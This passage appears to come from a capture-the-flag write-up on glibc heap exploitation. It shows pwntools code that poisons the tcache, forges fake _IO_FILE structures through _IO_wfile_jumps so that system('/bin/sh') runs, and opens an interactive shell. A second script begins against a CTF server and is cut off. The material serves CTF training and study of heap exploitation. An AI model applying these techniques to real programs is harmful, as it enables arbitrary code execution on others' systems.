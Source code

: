 ```
add(2, 0x120)
add(3, 0x120)
free(2)
edit(2, p64(0))
free(2)

Fake_IO_File_Structure = IO_FILE_plus_struct()
Fake_IO_File_Structure.flags = b'/bin/sh\x00'
Fake_IO_File_Structure._IO_save_base = p64(1)                                           # RCX
Fake_IO_File_Structure._IO_backup_base = p64(heap_base + 0x9b0 + 0x120 - 0xa0)          # mov    rdx, qword ptr [rax + 0x20]
Fake_IO_File_Structure._IO_save_end = p64(system)                                       # call   qword ptr [rax + 0x18]
Fake_IO_File_Structure._wide_data = p64(heap_base + 0x9b0 + 0x30)                       # mov    rax, qword ptr [rdi + 0xa0]
Fake_IO_File_Structure._offset = 0
Fake_IO_File_Structure._vtable_offset = 0
Fake_IO_File_Structure._mode = 1
Fake_IO_File_Structure.vtable = p64(libc_base + libc.sym['_IO_wfile_jumps'] + 0x30)

Fake_IO_File_Structure = bytes(Fake_IO_File_Structure)
Fake_IO_File_Structure += p64(0) * 6
Fake_IO_File_Structure += p64(heap_base + 0x9b0 + 0x40)

FakeIOFS = IO_FILE_plus_struct()
FakeIOFS.flags = p64(heap_base + 0x9b0)
FakeIOFS.chain = p64(heap_base + 0x9b0)
FakeIOFS._mode = 0
FakeIOFS = bytes(FakeIOFS)

edit(2, p64(heap_key ^ io_list_all))
add(4, 0x120)
add(5, 0x120)
edit(5, FakeIOFS)
add(8, 0x120)
edit(8, Fake_IO_File_Structure)

print(f"[*] Len: {hex(len(Fake_IO_File_Structure))}")

debug(io)

io.sendlineafter(b'>>', b'5')

io.interactive()
```

用一种方法是利用全局变量environ,去泄露栈地址，unlink去泄露libc地址

```
from pwn import *

filename = './heap'

debug = 1
if debug :
    io = remote('node4.anna.nssctf.cn', 28020)
else:
    io = process(filename)

elf = ELF(filename)

context(arch = elf.arch, log_level = 'debug', os = 'linux')

def dbg():
```